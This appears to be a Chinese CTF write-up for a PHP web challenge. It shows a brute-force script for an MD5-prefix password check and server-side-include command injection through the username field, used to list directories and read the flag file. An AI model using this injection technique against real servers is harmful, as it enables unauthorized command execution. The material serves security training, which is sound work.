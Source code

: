 ![[Pasted image 20221217203306.png|500]]

---
首页长这样

![[Pasted image 20221217203322.png|600]]

为什么两个框框的`placeholder`都是`username`啊喂==

猜密码没猜中，快进到下一步

---
使用`dirsearch`扫目录

![[Pasted image 20221217205515.png]]
```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
这个`***`不会是手残把墨水滴💾上造成的吧QwQ

---
先绕过第一个`if`
```python
from hashlib import md5

i = 0
while True:
    if md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1':
        print(i)
        break
    i = i + 1
```

> 2020666

---
接下来服务端在`public`目录下面写入了一个随机名字的`shtml`文件

`[!] Header error ...`暗示要去看响应头

![[Pasted image 20221217213950.png]]

![[Pasted image 20221217214621.png|700]]

---
然后是`shtml`的[新知识](https://zh.wikipedia.org/zh-cn/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E5%86%85%E5%B5%8C)

总之就是可以利用这个
```
<!--#exec cmd="ls -l" -->
```
来执行命令

这里通过`username`注入
```shell
ls
```

![[Pasted image 20221217215146.png|700]]

```shell
ls ..
```

![[Pasted image 20221217215251.png|700]]

```shell
cat ../flag_990c66bf85a09c664f0b6741840499b2
```

![[Pasted image 20221217215409.png|700]]

#Web #PHP #HTTP #Header #RCE #SHTML #HTML #目录爆破 #md5 